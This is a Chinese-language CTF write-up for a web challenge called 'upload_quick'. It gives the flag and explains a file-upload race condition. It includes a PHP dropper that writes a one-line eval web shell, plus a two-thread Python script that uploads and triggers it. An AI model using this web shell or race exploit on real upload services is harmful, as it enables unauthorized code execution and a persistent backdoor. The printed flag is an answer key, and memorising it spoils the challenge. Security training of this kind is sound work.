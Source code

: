 - **题目名称：** upload_quick
- **题目类型：** WEB
- **题目难度：** 中等
- **出题人：** fru1ts
- **考点：** 

1. 文件上传
2. 条件竞争

- **描述：** newnew的逻辑不太对，只要你够快
- **flag：** `XSCTF{fi1e_Upl00000000ad_int1r1s7ing_491346}`
- **Writeup：** 

1.获取页面源码（3种方法）：

- `view-source:url` / Ctrl + U
- 打开开发者工具（不要用快捷键，已经锁死）
- burpsuit

在`EasePack.min.js`找到提示：`you find me, good luck for you! Now go to Upl00000000ad.php`

2.访问`/Upl00000000ad.php`进行文件上传。通过尝试发现文件成功传上去，然后非图片的后缀再被改成`.jpg`，所以可以通过条件竞争在被修改后缀前上传`websehll`。

思路：使用两个线程，一个线程上传php文件，另一个线程访问传上去的php使之执行。

为了留下稳定的后门，在上传的php里面写一个创建后门文件

```php
#a.php
<?php
fputs(fopen("shell.php","w"),'<?php @eval($_POST["cmd"]);?>');
?>
```

exp

```python
import requests
import threading

url = ''


def POST1():
    for i in range(1000):
        filename = 'a.php'
        file = {"upload_file": open(filename, "rb")}
        r = requests.post(url=url + 'Upl00000000ad.php', data={'submit': 'True'}, files=file)

        print(r.text)


def POST2():
    for i in range(1000):
        r = requests.get(url=url + 'uploads/a.php')
        if r.status_code == 200:
            print('ok')
        print(r)


threading.Thread(target=POST1).start()
threading.Thread(target=POST2).start()

```

蚁剑连接`url/uploads/shell.php`

